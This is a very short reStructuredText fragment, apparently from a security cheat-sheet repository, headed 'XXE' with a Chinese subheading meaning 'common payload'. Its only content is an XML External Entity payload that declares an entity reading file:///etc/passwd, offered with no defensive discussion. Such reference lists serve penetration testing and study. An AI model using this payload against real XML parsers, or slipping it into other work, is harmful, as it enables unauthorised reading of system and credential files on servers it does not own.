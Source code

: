 XXE
================================

常见payload

::

    <!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>